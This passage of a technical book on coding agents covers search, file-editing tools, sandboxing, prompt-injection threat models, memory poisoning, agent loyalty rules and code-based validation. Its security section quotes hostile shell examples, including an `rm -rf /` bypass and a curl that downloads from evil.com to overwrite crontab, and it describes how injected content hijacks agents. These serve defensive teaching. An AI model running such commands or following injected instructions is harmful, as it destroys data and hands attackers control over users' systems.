**Instant Syntax Feedback Mechanism.**

This once again demonstrates the value of the Agent status bar technique. After the Agent modifies code, it should not wait for the user to explicitly request testing before checking syntax. A more efficient approach is for the tool layer to run the corresponding linter or syntax checker automatically as soon as the file write operation is complete and present the results as part of the tool's return value to the Agent. If a syntax error is detected, the Agent sees the detailed error information immediately in the next inference round—much as an IDE immediately flags an unmatched parenthesis. This instant feedback mechanism significantly reduces the cost of error fixing, because the Agent can correct the error at the moment it is introduced, without waiting until running tests to discover the problem.

These five implementation techniques—parallelism and streaming, context management, environmental awareness, state persistence, and instant feedback—together form the technical foundation of an efficient Coding Agent. They are not isolated optimization points, but mutually reinforcing design decisions, all pointing toward a single goal: enabling the Agent to work as smoothly as an experienced developer.

### Search Tools in Coding Agents

Locating relevant code in a large codebase is the starting point for a Coding Agent's work. Figure 5-3 compares several complementary search tools, illustrating how a mature Coding Agent should choose retrieval methods based on the nature of the task.


**Regex Content Matching** (grep/ripgrep): The most traditional search method, scanning file contents line by line for pattern matches. When the Agent knows the exact text to find (function names, variable names, error messages), it can locate every occurrence quickly and accurately. The expressive power of regular expressions (a syntax for describing text patterns with special symbols, e.g., `def handle.*` matches all function definitions starting with `handle`) captures complex patterns—not just literal text, but code that conforms to a particular structure. In practice, file type filtering (search only Python files) and path pattern filtering (exclude test directories) should also be supported to reduce noise. The fundamental limitation: it finds only textual matches and understands no semantics—a search for "user authentication" will never surface a function that handles login logic but happens not to contain the word "authentication."

**Filename Pattern Matching** (glob): Ignores file content, only searches the file system's path structure for files matching a pattern. For example, `**/*.test.ts` recursively finds all TypeScript test files, `src/components/**/Button.tsx` searches for Button.tsx at any depth under components. It is much faster than content search (no need to open and read files) and is the Agent's first step in exploring the project structure—quickly establishing the project's organizational framework by scanning the entire file system.

**Semantic Code Search**: Unlike the first two exact matching methods, it attempts to understand the "meaning" of the query and the code. It needs to solve two key problems:

- **Structure-Aware Chunking**: Code has strict syntactic structure and should be split by complete semantic units like functions, classes, and methods, rather than blindly cutting by a fixed number of characters.
- **Hybrid Retrieval** (Chapter 3 details this technology stack): Vector embeddings (dense embeddings) excel at finding semantically similar code with different wording (e.g., searching for "verify user identity" can find a function named `check_credentials`), while keyword matching excels at precisely matching function and variable names. The two run in parallel, and the results are merged and sorted by a reranker (a cross-encoder that performs fine-grained relevance ranking on candidate results), providing complementary coverage.

Semantic search is particularly suitable for exploratory tasks, such as finding code related to "interacting with the database" or "handling user input validation" in an unfamiliar codebase.

However, there is a clear debate in the industry about whether it is worth building embedding indices for semantic search. Terminal-based Agents like Claude Code deliberately **do not build embedding indices**, relying purely on agentic grep + glob for on-the-fly retrieval—this avoids maintaining indices that become stale as the code evolves, eliminates the entire indexing infrastructure. IDE-based tools like Cursor initially took the opposite approach: they are willing to pay the cost of building indices for **cross-file semantic recall**, using embedding indices to quickly find semantically related but differently worded snippets in large codebases. Today, IDEs like Cursor have also switched to on-the-fly grep + glob retrieval.

**Symbol-Level Definition and Reference Lookup**: This method uses IDE-like "go to definition" and "find all references" capabilities to distinguish symbol definitions from references—for example, it identifies `authenticate` on line 42 as a function definition and the occurrence on line 189 as a call, whereas text search can only find all lines containing that string. Mainstream coding agents do not currently use this approach.

These four search methods form a complementary toolbox, often used in combination in practice: first use semantic search to find relevant modules, then use regex matching to precisely locate specific lines of code, and finally use symbol search to trace the call chain—a progressive strategy "from coarse to fine, from semantics to syntax."

### File Editing Tools in Coding Agents

The difficulty of file editing lies not in the operation itself, but in how to efficiently and reliably tell the system "what to change and how to change it" using an LLM. Figure 5-4 compares five file editing schemes, illustrating the fundamental tension between human language expression and machine-precise execution.



**Diff Description + Apply Model**: The model does not directly specify how to edit the file; instead, it generates a change description—which can be a diff text similar to git diff (the format output by the `git diff` command, showing "which lines were deleted and which were added"), or a code skeleton with omission markers (using comments like "remain unchanged here" to skip unmodified parts). This description is then handed to a specialized "Apply Model"—usually another, smaller, faster LLM—responsible for merging it with the original file to produce the complete new file. This separation of concerns allows the main model to focus on high-level code logic and the apply model to focus on low-level text operations. The fragility of a naive implementation lies in the merge step: when there are minor discrepancies between the change description and the actual file code, it needs to determine if they refer to the same location; when there are multiple similar code snippets, it might merge into the wrong place. Cursor is a representative of the continuous evolution of this approach: the main model outputs a code skeleton with omission markers, a specially trained fast-apply small model rewrites the complete file, and speculative decoding (using the original file content as a draft for parallel verification) pushes the merge speed to thousands of tokens per second—engineering investment has bought reliability and speed for this approach.

**Old String → New String**: The approach adopted by Claude Code. The model provides an old string (the original text to be replaced) and a new string (the replacement text), and the framework performs a simple string find-and-replace. The advantage is predictability and transparency—if the old string exists and is unique in the file, it succeeds; otherwise, it fails. There is no ambiguity. The cost is that deleting large blocks of code requires outputting all the original content in full; a single character deviation causes the match to fail. When the same code appears multiple times, a longer context must be provided to disambiguate.

**Line Number Targeting** (Old Line Numbers → New String): The model specifies "delete lines X to Y, insert new content." Line numbers are precise and unambiguous, and deleting large blocks requires only two numbers. However, the model is prone to errors when "counting" line numbers, especially for very long files. In practice, this is mitigated by adding line number annotations to each line when reading the file, but subsequent line numbers change after each edit, limiting the parallelism of multiple edits.

**Vim-like Edit Commands**: Borrowing from the Vim editor's command system, supporting rich operations like copy, cut, and paste. Very efficient for restructuring code (moving a function from one place to another). But the command syntax carries a real learning burden: the strongest models handle it well; smaller models make noticeably more mistakes.

**String Start + End Matching** (Old String Start + End → New String): This can be seen as an improvement over the old string replacement scheme. The model does not need to output the complete old string; it only needs to provide the first few lines and the last few lines of the content to be deleted, omitting the middle part. The framework locates the replacement area from this start-and-end pair, provided that the combination is unique within the file. This scheme combines the reliability of text replacement with the efficiency of the line number approach—when deleting large blocks of code, there is no need to output hundreds of lines of original code, only the boundaries need to be shown. At the same time, because it is still based on content matching rather than abstract line numbers, the risk of the model making errors is relatively low.

**Practical Advice.** Mainstream Coding Agents fall into two camps, each with its flagship: Claude Code takes "old string to new string"—reliability first, simple to implement, no extra model needed; Cursor has pushed the Apply Model route to its limit—paying for the training and inference of a dedicated fast-apply model in exchange for higher editing throughput. If you are building your own Agent, "old string to new string" is the safest starting point; for large-scale edits, "string start + end matching" is the more economical compromise; the line-number approach is reliable only with deep IDE integration (where the editor maintains a live line-number mapping and re-supplies the model after every edit)—otherwise line-number drift will sink it.

### Security for Coding Agents

This section organizes the Coding Agent's defenses into a coherent framework: we first outline the **threat model**—which risks are most lethal; then **isolation as the safety net**—network egress, file system, and resource limits in the sandbox; then **execution-time defense**—semantic parsing of commands, and speculative execution that makes security checks "invisible"; and finally **trust and loyalty**—whom the Agent serves under multi-party delegation, and how to move the trust boundary down to the data layer when AI-written code itself cannot be trusted. The threat model, loyalty, and trust-boundary discussions apply to all Agents; sandboxing and command parsing are specific to Coding Agents.

This "sovereign Agent" paradigm also introduces severe security challenges. A Coding Agent has permissions to read and write files, execute commands, and access networks, meaning that once injected with malicious instructions, it could cause irreversible damage. Developer and independent researcher Simon Willison summarized this risk with his famous "Lethal Triad"—when all three elements are present, they form a complete attack loop, putting the system at high risk:

1.  **Access to Private Data** — The Agent can read user files and password managers.
2.  **Exposure to Untrusted Content** — Processed emails and web pages may contain malicious payloads.
3.  **Ability to Communicate Externally** — It can send emails and execute commands.

This closes the attack loop: malicious instructions hidden in untrusted content enter the Agent, drive it to read private data, and then exfiltrate it through external channels. Note that the presence of all three elements is dangerous enough on its own, without any additional conditions. Building on this, the author adds a fourth dimension—**Persistent Memory**. This is not a parallel fourth necessary condition, but an amplifier for attacks: an attacker can write seemingly harmless biases or malicious instructions into the Agent's long-term memory, where they lie dormant across sessions and trigger at an opportune moment — turning a one-off attack into a threat that lies in wait and compounds over time.

These four points can be summarized as four types of boundaries: data boundary, input trust boundary, output impact boundary, and cross-session boundary. A full-permission local Agent like OpenClaw spans all four risk dimensions, making security protection a core challenge that such Agents must confront.

This also explains why closed-source commercial Agents (like Claude Cowork (Anthropic's general-purpose Agent for knowledge work, reusing Claude Code's agentic architecture, capable of reading and writing local files and completing multi-step tasks across multiple office applications)) have chosen conservative permission strategies. Against prompt injection, input filtering alone barely helps. The goal is not to recognize every attack, but to ensure that an injected Agent never gets the chance to carry a dangerous action through. This is exactly where the three-layer guardrails from Chapter 1 come into play. Compared with other Agents, Coding Agents need to pay special attention to:

- **Command Semantic Parsing** — The combinatorial explosion of Shell commands makes keyword blacklists useless; the real effect of a command must be understood at the semantic level (expanded later in this section);
- **Sandbox Isolation and Network Egress Control** — Code execution is an attack surface unique to Coding Agents; the engineering choices for isolation levels and egress strategies are covered later in this section;
- **Cross-Session Defense for Persistent Memory** — This chapter extends the Lethal Triad analysis to persistent memory: content written to long-term memory must undergo the same trust review as external input so that malicious instructions cannot lie dormant in `MEMORY.md` and take effect later.

These three protections fall into the verification, execution, and data layers respectively, complementing the defense system from the previous two chapters. These strategies cannot completely eliminate risk, but they can reduce the Agent's attack surface.

**Isolation as the Safety Net: Engineering Choices for the Code Execution Sandbox.**

- **Network Egress Control.** This is the most easily overlooked and the most critical item: no network by default, with access granted on demand through a whitelist proxy to a limited set of destinations (package sources, documentation sites, APIs the task explicitly requires). Looking back at item 3 of the Lethal Triad—"Ability to Communicate Externally"—network egress control is its execution-layer defense: even if a prompt injection succeeds and malicious code reads sensitive data inside the sandbox, without an egress path, the data cannot be transmitted. Compared to trying to identify every injection, cutting off the data exfiltration channel is a much more deterministic line of defense.
- **File System Isolation Scope.** Mount the source code directory as read-only (the Agent modifies code through editing tools, and the generated patches are reviewed before being written to disk, or a copy is mounted into a writable workspace); a separate writable workspace directory holds generated artifacts and intermediate files; credential files (`~/.ssh`, keys, tokens) are not mounted into the sandbox at all—invisible data cannot be leaked, corresponding to item 1 of the Lethal Triad.
- **Resource Limits and Timeouts.** Set quotas for CPU, memory, and disk, plus a wall-clock timeout, to defend against infinite loops, fork bombs (a process that rapidly replicates itself until the system crashes), and unlimited disk writes. A practical detail: timeouts and limit violations should return a structured error to the Agent ("Execution terminated after 120 seconds, last output was...") rather than silently killing the process, giving the Agent a chance to revise its strategy in the next turn.
- **Reconciling Persistent Sessions and Isolation.** The later section "State Persistence in the Command Execution Environment" advocates for maintaining long-lived terminal sessions, while the isolation principle advocates for disposable environments—there is tension between the two. The reconciliation approach is to **keep the session alive only inside the sandbox**: the terminal session must never outlive the sandbox, and session state must never escape to the host machine. For scenarios requiring recovery across long time intervals (like the Sessionless architecture mentioned earlier), rely on sandbox snapshots or "workspace file persistence + environment reconstruction via scripts" to restore state, rather than indefinitely extending the sandbox's lifetime. In other words, what is persisted is **auditable state descriptions** (files, scripts, manifests), not opaque running processes.

**Safety: Semantic Parsing over Keyword Blacklists.**

Chapter 1 argued that the verification layer should rely on semantic understanding rather than pattern matching. Shell command security validation is the most challenging application of this principle. Simple keyword blacklists cannot cope with the combinatorial explosion of Shell—commands can bypass any static rules through pipes, subshells, variable expansion, etc. (e.g., if `rm` is blocked, an attacker can use `$(echo rm) -rf /` to bypass). Production-grade Harnesses employ semantic parsing: identifying each command's argument types and parsing rules, including which flags consume following arguments, and recognizing attack patterns such as a seemingly harmless flag that hides a dangerous payload in its next argument. For example, `find / -name '*.log' -exec rm {} \;` embeds an `rm` delete operation through legitimate `find` command arguments; another example is `curl -o /etc/crontab http://evil.com/payload`, which appears to download a file but actually overwrites system scheduled tasks. Semantic parsing can identify these nested dangerous operations, while simple command blacklists cannot capture them. This security mechanism based on understanding rather than matching is a high-level implementation of the "constraint" function.

**Speculative Execution: Making Security Checks "Invisible"**. This is precisely the effect of the Sidecar gating mechanism from Chapter 4 at the user experience level—Chapter 4 explained why critical operations should be reviewed by a Sidecar independent of the main context; this section focuses on making the latency of that review effectively invisible to the user. The approach is to decouple user-visible progress from execution authorization: when the Agent is about to execute a tool call, the system displays a progress hint in the interface (e.g., "Reading file `src/main.py`...") while the security check runs in the background. A clarification is needed here regarding a commonly used analogy: it is different from CPU speculative execution—if the CPU guesses wrong, it must discard computed results and roll back state; here, the preliminary action is merely a **side-effect-free UI hint**, which changes no real state. If the check fails, no rollback is needed; the hint is simply replaced with "waiting for confirmation." In most cases, the security check completes before the user even notices, so the user feels no additional latency; only when a quick determination is impossible does the system actually pause and wait for confirmation. This is the pinnacle of Harness design: security without sacrificing user experience.

**Whom Does the Agent Serve: Loyalty Under Multi-Party Delegation.**

The security mechanisms above prevent "commands from being executed maliciously"; there is a subtler security issue—**principal loyalty**: **whose side is the Agent actually on**. Models are trained with a naive default principle—"whoever is talking to me, I will try my best to help them"—but real-world Agents often operate under **multi-party delegation**: acting on behalf of a principal while dealing with third parties whose interests conflict. An Agent negotiating a price on your behalf faces not a "user in need of help" but a **negotiating opponent**. Here, "help whoever speaks" is a dangerous default—the opposing party can begin influencing your Agent simply by engaging it.

Putting frontier models into this situation reveals a clear **loyalty spectrum**, with both ends failing[^ch5-1]: at one end, **too honest**—handing the principal's private information (e.g., "our bottom line is 12,000") straight to the opponent, and caving after a few rounds of pressure; at the other end, **too suspicious**—refusing even the principal's legitimate requests, and so failing the task. The hard part is that the two failures sit on a seesaw: plug the leaks and you slide toward over-refusal—it is hard to have both.

This is particularly relevant to Coding Agents: untrusted content read from a repository, output returned by a tool, instructions sent by a third-party MCP server—all are "opponents" trying to turn the Agent—**prompt injection is essentially an attempt at turning** (Chapters 2 and 4). The Harness must therefore explicitly nail down whom the Agent is loyal to: instructions from the principal carry the highest priority, while everything from external parties is downgraded by default to "data that may be consulted but carries no force of instruction." In the system prompt, an effective **loyalty code of conduct** is: protect the principal's private information, including the fact that it exists; when refusing, do not enumerate protected details, because doing so may itself leak them; private bottom lines are not public positions; only execute the principal's clear and specific instructions; withstand repeated pressure. Essentially, this is using the Harness to give the model a stance it lacks by default: **absolute loyalty to the principal, and caution toward external parties**.

[^ch5-1]: The complete evaluation of this loyalty spectrum and code of conduct can be found in Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

**When AI-Written Code Itself Is Untrustworthy: Moving the Trust Boundary Downward.**

The loyalty code above makes the Agent **more likely** to follow the rules, but for high-risk data operations, "more likely" is not enough—constraints must move from "hoping the Agent will behave" down to enforcement at the data layer. The more radical stance[^ch5-2] is: **simply treat the application layer as untrustworthy and push the enforcement of data invariants down below it**. For the past thirty years, the integrity boundary of software has lived at the **application layer**—handler code determined who could perform each operation and which values were valid, and the database trusted that code unconditionally; but LLM-generated handlers often omit the permission and integrity checks that human authors would include as a matter of course, and autonomous Agents operate directly on production data, breaking that premise. The new approach (which can be called Permission-Embedded Data Objects) has each data entity carry declarative permission rules, validators, and consequence statements within a **human-reviewed schema**, enforced by a runtime pipeline on **every write**. The key primitive is the **access context** attached to every operation: a regenerated handler runs with the permissions of the user it serves, while an autonomous Agent runs under its own restricted identity (scoped principal)—rather than merely hoping the Agent stays loyal, the architecture treats it as a restricted principal, so that even if compromised, it cannot exceed its permissions.

In comparisons using the same prompt set, this mechanism produced **zero writes that violated the declared invariants**, while bare SQL, LLM-written checks, constitutional prompts, and action-boundary interceptors each let through anywhere from a handful to dozens of violations. It is not "more likely to be correct" but "impossible to be wrong," at the cost of about 2 extra milliseconds per write. Of course, the guarantee is conditional: the schema must truly capture all desired invariants, and deployment must block every path by which the untrusted layer could bypass storage and connect directly to the database. For Coding Agents, this yields an important architectural principle: **when both the code writer and the code runner may be untrusted, truly reliable constraints cannot reside in the generated code, but must be placed in the human-reviewed foundation beneath it**—this is the ultimate form of the "constraints over guidance" principle from Chapter 1, applied at the data layer.

[^ch5-2]: This design and evaluation of "moving the trust boundary below the application layer" (including a complete comparison of violation counts across different solutions) can be found in Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026 (forthcoming).

## Code: The Meta-Capability of a General Agent

The previous section showed how to build a reliable Coding Agent—from architecture to tool implementation to harness engineering. But the value of code generation extends far beyond writing programs.

> **What is a "meta-capability"?** An ordinary capability is an Agent's ability to do a specific thing—answer a question, call a certain API, generate a piece of text. A **meta-capability** is an ability that "can create other abilities": the Agent uses it to write new tools, new constraints, and new forms of expression on the fly to accomplish a task, without needing to have all capabilities pre-built. Code generation is precisely such a meta-capability—it is precise, executable, and composable, allowing it to produce new tools (scripts, API call sequences), new constraints (assertions, validation rules), and new forms of expression (HTML forms, PPTs, video frames).

For this reason, the role code plays in an Agent system goes far beyond "writing programs." The next six sections demonstrate, one by one, six directions in which this meta-capability applies beyond programming. These six directions are not merely a flat list; they progress from the inside out, organized by the object to which the meta-capability is applied:

1.  **Thinking Itself**—using code to replace error-prone natural-language reasoning (Thinking Tools);
2.  **Business Rules**—encoding vague policies as executable constraints (Business Rule Constraints);
3.  **Content Presentation**—generating PPTs, videos, and visualization artifacts (Multimedia Generation);
4.  **System Interfaces**—bridging heterogeneous APIs and automatically adapting to evolving data formats (System Adapters);
5.  **User Interfaces**—dynamically constructing forms and interactive interfaces (Generative UI);
6.  **The Agent Itself**—using code to create or repair new Agents, thereby enabling bootstrapping.

### Code as a Thinking Tool

LLMs are remarkable at understanding and generating natural language, yet fundamentally weak at precise calculation, symbolic manipulation, and strict logical deduction. The reason: a model's thinking is inherently probabilistic and approximate, while mathematical and logical problems demand deterministic, exact answers. One concrete comparison makes the point:

```text
Problem: "A class has 40 students. 60% take math, 45% take physics, and 25% take both.
          How many students take only physics but not math?"

Pure Natural Language Reasoning (prone to errors):      Code Reasoning (precise and verifiable):
"60% take math = 24 students,                           math = int(40 * 0.60)    # 24
 45% take physics = 18 students,                        phys = int(40 * 0.45)    # 18
 25% take both = 10 students,                           both = int(40 * 0.25)    # 10
 Only physics = 24 - 10 = 14 students"                  only_phys = phys - both  # 8
→ Mistakenly subtracts from math count, answer wrong    → print(only_phys)  # 8 ✓
```

Let the LLM be responsible for understanding the problem and writing the code, and let the code interpreter be responsible for precise calculation—this division of labor lets each play to its strengths.

Stephen Wolfram, the creator of Mathematica, offered a profound insight on this. Before LLMs existed, there were already systems capable of precise mathematical computation—they worked using **Symbolic Computation**, i.e., processing expressions using mathematical symbols rather than approximate numerical values. For example, a conventional calculator would approximate $\sqrt{2}$ as 1.414, whereas a symbolic computation system would preserve the exact form $\sqrt{2}$, only converting to a decimal when necessary. Wolfram Alpha, created by Wolfram, is such a system: users input a math problem, and it returns an exact answer. However, its natural language understanding is quite fragile and its coverage is narrow—it relies on a built-in grammar parser that can only recognize a limited set of phrasings; a slight change in phrasing could cause parsing to fail, and it certainly cannot handle open-domain multi-step reasoning. LLMs perfectly fill this gap—they excel at understanding various natural language expressions but are not good at precise calculation. The new collaborative model is: let the LLM be responsible for understanding the user's natural language question, identifying the mathematical or logical structure within it, and translating it into a formal language (such as the Mathematica language or Python's SymPy library); then hand it over to a dedicated symbolic computation engine or constraint solver for execution to obtain precise results.

> **Experiment 5-1 ★★: Using Code Generation Tools to Improve Mathematical Problem-Solving Ability**
>
> **Experiment Goal**: Verify the accuracy improvement of an Agent's mathematical thinking when assisted by a Code Interpreter.
>
> **Technical Approach**: Equip the Agent with a Python sandbox containing mathematical libraries like sympy, numpy, and scipy. When the Agent encounters a math problem, it formalizes it into Python code: sympy for symbolic computation (calculus, equation solving), scipy for numerical optimization, numpy for matrix operations. The generated code is executed in the sandbox to return precise results.
>
> **Acceptance Criteria**: Evaluate using AIME-style problems (modeled after the American Invitational Mathematics Examination). Compare the accuracy of pure chain-of-thought reasoning with that of code-assisted reasoning; the code-assisted mode should achieve significantly higher accuracy. Check whether the code correctly uses the mathematical libraries and whether the solution process is logically clear.
>

> **Experiment 5-2 ★★: Using Code Generation Tools to Improve Logical Reasoning Ability**
>
> **Experiment Goal**: Assess the Agent's ability to perform logical reasoning with the help of constraint-solving code.
>
> **Technical Approach**: Equip the Agent with a Code Interpreter containing the python-constraint library. The Agent translates logic puzzles, such as Knights and Knaves problems, into formal constraint models: it identifies the variables (each islander's identity), encodes rules such as "knights tell the truth" as constraints, and invokes the solver to find a satisfying assignment.
>
> **Acceptance Criteria**: Evaluate using the [K&K Puzzle dataset](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves). The code-assisted mode should achieve a solution accuracy of over 90%, significantly higher than the pure thinking mode.
>

This experiment also reveals a more general pattern: model and harness trade off against each other. When the model is strong enough, the harness can be thinner—the model reasons correctly on its own, and the gain from a code solver narrows. When the model is weaker, the harness must do more—offloading the key logical reasoning to code and constraint solvers to guarantee correctness. That is why this experiment deliberately uses a weaker model, to amplify the contrast: on a weak model, pure thinking miscalculates constantly and code assistance lifts accuracy dramatically; on a sufficiently strong reasoning model, pure thinking often solves every puzzle, and the gain from code assistance converges to near zero. How thick the harness should be, then, depends on where your model's capability boundary lies—a premise easily overlooked when evaluating any Agent technique: the same harness, paired with models of different strength, can support opposite conclusions.

### Code as a Constraint for Business Rules

This section is a direct response to the Harness Engineering section earlier in this chapter. One of the core principles of the Harness is "Constraints: Encoded, Not Documented"—transforming rules from natural language documentation into executable code, making them mandatory constraints on system behavior rather than advisory guidelines. Code generation enables the Agent to autonomously complete this transformation process.

Business rules, workflows, and decision logic described only in natural language are riddled with ambiguity. What is a "reasonable refund request"? What counts as an "emergency"? The boundaries resist natural-language definition—"refundable within 7 days of purchase" sounds clear, but are those calendar days or business days? Does "purchase" mean order placement or shipment? Code, by contrast, is an unambiguous, executable representation of knowledge—it either runs or throws an error; there is no in-between.

**Precisely Expressing Complex Business Rules.**

**Natural Language Rules vs. Codified Rules: Complementary, Not Interchangeable**

Writing rules in the system prompt allows the model to **explain policies** to users, **identify policy-compliant alternatives** (e.g., "rebook instead of cancel"), and make a preliminary feasibility judgment before calling a tool.

Codifying rules as validation tools offers three advantages: **precise, unambiguous decision logic**; **deterministic execution**, so the same input always produces the same output; and effective handling of **complex rule combinations**, such as multi-condition Boolean logic, time calculations, and cross-data-source validation.

In practice, they should be used together: the system prompt contains natural language rules for understanding and communication, while key decision points are equipped with codified validation tools acting as "gatekeepers" to ensure compliance.

The true value of codified rules is not token efficiency but **preventing irreversible mistakes**. Canceling an order, transferring funds, or deleting data may be impossible to undo once executed. Codified validation places a last line of defense in front of the operation, and the value of that guarantee far outweighs its implementation cost.

**Combining Validation with Execution: Checklists Guide Reasoning; Ground-Truth Validation Guards the Gate**

Instead of building a separate validation tool, put the validation inside the execution tool. Consider the airline cancellation policy from τ-bench, a benchmark designed to evaluate tool use and policy compliance in simulated airline and e-commerce customer-service scenarios:

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Optional: for model self-check; server uses database ground truth for verification
    expected_has_insurance: bool = None  # Optional: for model self-check; same as above
) -> dict:
    """
    Cancel a flight reservation.

    Cancellation policy (enforced server-side based on database ground truth):
    - Rule 1: Reservations with any used segments cannot be cancelled
    - Rule 2: Reservations can be unconditionally cancelled within 24 hours of booking
    - Rule 3: Flights cancelled by the airline can always be cancelled
    - Rule 4: Business class can always be cancelled
    - Rule 5: Basic economy and economy require travel insurance to be cancelled

    Before calling, please query the order details and check each rule above one by one. The expected_* parameters
    record the basis for your judgment. The server compares them with authoritative data for auditing, but they do
    not affect the policy decision.
    """
    # All policy facts are read from the database; never trust values reported by the model
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Server clock, not provided by the model

    # Log a warning if the model's self-reported value does not match the ground truth, to detect erroneous beliefs or potential injection
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking < 0:
        return {"success": False, "reason": "Booking time is in the future"}
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

The value of this design should be understood on two levels.

**First level: parameters as a thinking checklist.** The tool description lists the complete cancellation policy and requires the model to "query order details and check each condition one by one before calling"; the optional `expected_*` parameters further prompt the model to explicitly write out its own reasoning. To fill in these parameters, the model must first call the query tool to get order details and verify each condition one by one — filling in these parameters therefore acts as a **mandatory checklist**. When the model finds that the cabin class is economy and insurance has not been purchased, it may notice Rule 5 while preparing the call and therefore **avoid initiating it**, instead directly telling the user "Economy class without insurance cannot be cancelled. Consider purchasing insurance before cancelling or changing your booking." This layer guides reasoning and reduces invalid calls; however, it is not a security boundary. The `expected_*` values are only self-reported claims, never facts trusted by the server.

**Second level: server-side ground-truth validation as the gatekeeper.** Note the key design in the code: cabin class, insurance status, booking time, segment usage, and flight status are all queried from the database by the server; the current time comes from the server clock. **No policy fact comes from the model's self-reported parameters.** This is not needless redundancy: the model may hallucinate or be manipulated by prompt injection, and—as the earlier Lethal Triad analysis showed—an Agent operating within a single context cannot reliably validate its own behavior. If `cabin_class`, `has_insurance`, and even `current_time` were designed as parameters filled in by the model, a single false value—whether accidental or induced—could bypass the gatekeeper. The last line of defense must be built on data that the model cannot forge — this is consistent with the earlier stance that "critical operations require independent verification": independence refers not only to an independent model but also to an independent data source.

The three-tier safeguard is thus complete: (1) natural language rules in the system prompt aid understanding and explanation; (2) tool descriptions and parameter design serve as a checklist, guiding the model to explicitly verify conditions before calling; (3) server-side code-based validation using database ground truth acts as the final gatekeeper. The first two tiers reduce the occurrence of errors, and the third ensures that errors do not become irreversible losses.

> **Experiment 5-3 ★★: Small models improve rule execution accuracy through code-based knowledge**
>
> **Experiment objective**: Verify that encoding complex business rules in code significantly improves the accuracy and consistency with which a small model (Qwen3-4B) executes those rules.
>
> **Technical approach**: Design a controlled experiment based on the τ-bench airline customer service scenario. **Control group**: Pure natural language rules, relying on the model's own reasoning. **Experimental group**: Three-tier safeguard — system prompt retains natural language rules; tool description lists the complete policy and uses optional `expected_*` parameters to guide the model to check each condition one by one before calling (checklist); the tool internally performs code-based validation based on simulated database ground truth (all policy facts are obtained from the database, time is taken from the server clock, and the model's self-reported parameters are not trusted). Evaluation metrics: task success rate, number of policy violations, number of invalid tool calls, user experience.
>
> **Expected results**: The experimental group significantly outperforms the control group. More importantly, the model autonomously identifies policy violations while preparing parameters and offers alternatives without calling the tool, demonstrating the value of parameters as a checklist. Finally, measure the mismatch rate between self-reported `expected_*` values and database ground truth to show why server-side validation is necessary for catching reasoning errors.
>

### Code-Driven Multimedia Generation

The creation of many complex documents is essentially the organization and presentation of structured data. Whether it's a presentation, a technical report, or an interactive application, the underlying structure is defined by code — HTML describes the structure, CSS controls the style, and JavaScript implements interactivity. Traditional document creation relies on GUI-based WYSIWYG editors, which are a poor fit for Agents because they require visual interpretation and precise pointer placement. Through code generation, Agents bypass the challenge of visual positioning and gain precise control over documents — the position, style, and content of each element are clearly defined and can be modified and optimized programmatically.

**PPT Generation Agent.**

PPT creation is notoriously laborious. A typical academic presentation runs to dozens of slides, each demanding careful layout, distilled key points, and well-chosen charts. Reframe PPT creation as a code generation problem, however, and much of the complexity falls away. Modern presentation frameworks such as Slidev embrace an elegant design philosophy: define the content in Markdown and HTML. Creating a slide takes a few lines of concise markup, and the framework handles rendering, layout, and animation. For an Agent that has mastered code generation, this is ideal terrain.


Generating the code is not enough, though. **Once the Agent has written the code, it has no idea how the result actually renders**: content too crowded, text overflowing, images the wrong size — none of this is visible until the slides are actually rendered. Therefore, a **Proposer-Reviewer** mechanism (shown in Figure 5-5) is needed to assign code generation and quality review to two independent Agents:

- **Proposer Agent** is responsible for generating Slidev code, understanding the logical structure of the content, and decomposing it into reasonable pages.
- **Reviewer Agent** runs the code to render each page as an image, uses a Vision LLM (a multimodal large model that can "see" images) to evaluate the rendered slides for content density, readability, layout quality, and visual appeal, and generates **structured improvement suggestions** — not vague "doesn't look good," but specific, actionable guidance (e.g., "Page 3: too much content, consider splitting"; "Page 7: code block font too small, suggest increasing to 14pt"), including fields such as page number, issue type, and severity.

The Proposer receives the feedback, interprets it, modifies the code, and resubmits the new version to the Reviewer. This cycle continues until the presentation meets the quality standard or the maximum number of iterations (e.g., five rounds) is reached. "Quality meets the standard" and "maximum rounds" are exactly the two kinds of explicit stop conditions Loop Engineering calls for: the former lets the reviewer decide the goal has been reached; the latter is a budget cap that keeps the loop from running away.

The Proposer-Reviewer loop here follows the same pattern as the **pre-approval** mechanism in Chapter 4: one Agent generates, and another independently evaluates. The two applications differ in purpose and workflow. Chapter 4 uses the pattern to approve or reject a single irreversible operation; here, it drives iterative content improvement over multiple rounds, with the Reviewer seeing rendered output unavailable to the Proposer. The core design principles are consistent (shared goal constraints, using different model families to reduce the probability of similar errors, feedback as a special event added to the Proposer's trajectory). The **core advantage** of using a dual-agent division of labor rather than a single-agent loop lies in **context management**: the Reviewer processes only the latest version's rendered images, unaffected by historical versions; the Proposer only accumulates structured text feedback, consuming fewer tokens and making reasoning easier. A single-agent solution would need to accumulate rendered images from multiple rounds for dozens of pages in the same context, quickly exceeding the context limit. This mechanism will be reused in subsequent experiments on video editing and log visualization; Chapter 10 will further explore other multi-agent collaboration modes beyond the Proposer-Reviewer paradigm.

> **Experiment 5-4 ★★: Automatic PPT generation from papers**
>
